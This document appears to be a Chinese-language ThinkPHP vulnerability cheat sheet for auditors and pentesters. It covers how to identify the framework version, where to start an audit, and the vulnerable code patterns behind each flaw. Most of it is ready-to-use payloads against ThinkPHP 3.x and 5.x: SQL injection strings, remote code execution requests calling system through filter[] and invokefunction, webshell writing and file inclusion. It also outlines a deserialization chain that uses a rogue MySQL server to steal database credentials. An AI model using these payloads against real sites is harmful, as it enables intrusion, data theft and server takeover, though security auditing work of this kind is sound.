 # ThinkPHP总结

介绍：这是一篇tp的漏洞总结，以及一些自己遇到过或思考过的tricks，

查找漏洞建议直接页面搜索版本号，例如这些关键字：5.1、5.0、3.2

---

问题：如何判断TP版本？

-   黑盒
    -   构造请求错误，如果目标错误管理不规范就可能显示tp版本信息
    -   请求`App/Runtime/Logs/Home/22_05_12.log`当天日志（tp3）
    -   请求`runtime/log/202205/12.log`当天日志（tp5）
-   白盒
    -   全局搜索`THINK_VERSION`（tp3），或者`VERSION`（tp5）
    -   看控制器方法的写法：类似M(xxxx)这种用一个大写字母来实例化（tp3）
-   开源的系统可以尝试去该系统的官网or站长下载这类源码站看系统介绍

问题：TP框架审计初始准备？

-   全局搜索THINK_VERSION确定版本

-   检查配置文件：
    -   是否默认开启debug模式
    -   是否有定义过滤器 default_filter 
    -   检查路由配置，是否开启强制路由
    -   不熟悉建议通读配置文件配置项，都有注释。

-   检查路由配置：
    -   通常在route.php，了解路由规则写法百度tp5开发手册即可
    -   改文件通常在application目录下

-   鉴权的几种方式：
    -   继承鉴权类，通常为Comm命名的
    -   调用鉴权函数，通常定义在common.php或者function.php

-   确定控制器是否需要渲染模板，如果需要模板但没有则访问报错



## thinkphp5

### 注入类

```php
不开启debug和trace，只开启show_error_msg显示错误信息也可尝试利用报错注入
利用条件：需要有注入的tp版本，或者是二开代码中有可控输入+直接拼接。
# 判断开启show_error_msg是否开启？
1. 请求一个不存在的控制器或方法，如/user/userabc/index.html
2. 关闭时只会提示：页面错误！请稍后再试～
	开启时会提示：控制器不存在:app\user\controller\Userabc
# 实际案例：kyxscms（基于TP5.1.33，虽然开启了show_error_msg但是没有利用条件，本人在某次项目中看到有基于kyxscms二开的一个系统符合“二开代码中有可控输入+直接拼接”这个条件。）
```

```php
# 摘自吐司https://www.t00ls.com/viewthread.php?tid=65613
# 5.0.5左右的低版本
id=input("id");
data=db("users")->where("id",$id)->find();
```

```php
# 版本：5.0.13<=ThinkPHP<=5.0.15、 5.1.0<=ThinkPHP<=5.1.5
payload：/public/index.php/index/index？username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
# 代码：
$username = request()->get('username/a');
db('users')->insert(['username' => $username]);
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(一).md
```

```php
# 版本：ThinkPHP=5.0.10
payload：/public/index.php/index/index?username[0]=not like&username[1][0]=&username[1][1]=&username[2]=) union select 1,user()--+
# 代码：
$username = request()->get('username/a');
$result = db('users')->where(['username' => $username])->select();
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(二).md
```

```php
# 版本：ThinkPHP=5.1.22
payload：/public/index.php/index/index?orderby[id`|updatexml(1,concat(0x7,user(),0x7e),1)%23]=1
# 代码：
$orderby = request()->get('orderby');
$result = db('users')->where(['username' => 'mochazz'])->order($orderby)->find();
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(三).md
```

```php
# 不同版本 payload 需稍作调整：
5.0.0~5.0.21 、 5.1.3～5.1.10 ： id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
5.1.11～5.1.25 ： id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
# 代码：
$options = request()->get('options');
$result = db('users')->max($options);
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(四).md
```

```php
# 注意有没有直接拼接
	$id=$this->request->param('id'); # 这里是直接用request->param，默认也没有过滤器。
	$result = Db::table('users')->where("id=". $id)->find(); # 没有以数组形式传入where导致注入，
   或者如：
   	$result = Db::table('users')->where("id = {$id}")->find(); 都是直接拼接没有以数组形式传入where导致注入。
```

### getshell类

RCE的洞，黑盒测试的话直接上工具就行吧。

```php
# 文件包含
# 版本：5.0.0<=ThinkPHP5<=5.0.18 、5.1.0<=ThinkPHP<=5.1.10
payload：/index/index?cacheFile=1.jpg即可包含1.jpg
# 代码：
$this->assign(request()->get());
return $this->fetch(); // 当前模块/默认视图目录/当前控制器（小写）/当前操作（小写）.html
return $this->display(); //display方法也可以触发漏洞
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之文件包含审计分析(五).md
```

```php
# 代码执行
# 不同版本 payload 需稍作调整：
# ThinkPHP <= 5.0.13：
POST /?s=index/index
s=whoami&_method=__construct&method=&filter[]=system

# ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al

# ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=captcha HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls

# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之任意方法调用RCE(六).md
```

```php
# 代码执行5.0.7<=ThinkPHP5<=5.0.22 、5.1.0<=ThinkPHP<=5.1.30
# 不同版本 payload 需稍作调整：
5.1.x ：
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

5.0.22及以下 ：
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5漏洞分析之代码执行(七).md
```

[5.0.X反序列化利用链](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5.0.X%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)

[5.1.X 反序列化链子](https://github.com/lu2ker/PHP-Code/blob/main/TP5%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)

[5.2.X反序列化利用链](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5.2.X%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)

[链子集合](https://github.com/ambionics/phpggc/tree/master/gadgetchains/ThinkPHP)

推荐阅读：

[挖掘暗藏ThinkPHP中的反序列利用链](https://blog.riskivy.com/%e6%8c%96%e6%8e%98%e6%9a%97%e8%97%8fthinkphp%e4%b8%ad%e7%9a%84%e5%8f%8d%e5%ba%8f%e5%88%97%e5%88%a9%e7%94%a8%e9%93%be/)

## thinkphp3.2.3

### 注入类

```php
# exp注入
$id = $_GET['id'];
$Admin = D("admin");
$data = $Admin->where(['Id' => $id])->limit('2')->select();

# payload：?id[0]=exp&id[1]==1 UNION ALL SELECT 1,2,3
# 两个等号，没错。具体分析看这里
# https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP3之SQLI审计分析.md
```

```php
# order by注入
$username=I("username");
$order=I("order");
$result= M('users')->where(array("username"=>$username))->order($order)->find();

# payload：username=admin&order[extractvalue(1,concat(0x7e,(select+database())))]
# 分析&实际案例：https://althims.com/2020/02/03/xyhcms-3-6/#xyhcms-v3-6-前台sql注入
```

下面这些摘自土司@[H0ward](https://www.t00ls.com/viewthread.php?tid=65613)

```php
# 框架级漏洞
$id=I('post.id');
$list = M('system_skin')->find($id);//select() delect()都会有问题
# payload:
id[where]=1’and
id[alias]=where 1 and
id[table]=users where 1 and

# save注入
$comdition["username"]=I("username");
$data["password"]=I("password");
$list = M('admin_user')->where($comdition)->save($data);
# payload:
username[0]=bind&username[1]=0+and(select+extractvalue(1,concat(0x7e,(select+database()))))&password=123   
```

```php
# 其余要注意的点
# 注意在对象创建的时候有没有用过滤器，没有的话输入就可控了。
	$id = I('id', 0, 'intval'); # 这是用了整数过滤器获取参数id
```

[开发中容易造成漏洞的写法](https://blog.csdn.net/Fly_hps/article/details/84954830)

### getshell类

-   [反序列化POC](https://github.com/lu2ker/PHP-Code/blob/main/thinkphp3%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96POC.php)，利用方式为：

    -   用`rogue_mysql_server`开启一个恶意Mysql服务器，在配置文件中填入想要读取的文件，比如读取目标数据库配置文件拿到数据库账户密码;
    -   POC里修改数据库配置为你的恶意mysql；
    -   发送序列化payload，恶意MySQL服务器可以读取到目标数据库配置文件内容；
    -   将POC中的数据库连接配置替换为目标的数据库配置，可修改需要注入的SQL语句，
    -   因为`ThinkPHP v3.2.*`默认使用的是PDO驱动来实现的数据库类，因为PDO默认是支持多语句查询的，所以这个点是可以堆叠注入的。也就是说这里可以使用导出数据库日志等手段实现Getshell，或者使用`UPDATE`语句插入数据进数据库内等操作。

    条件：目标数据库账户必须是root

    实际案例：[XYHCMS前台反序列化](https://github.com/M00nBack/vulnerability/tree/main/xyhcms/XYHCMS%E5%89%8D%E5%8F%B0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96)
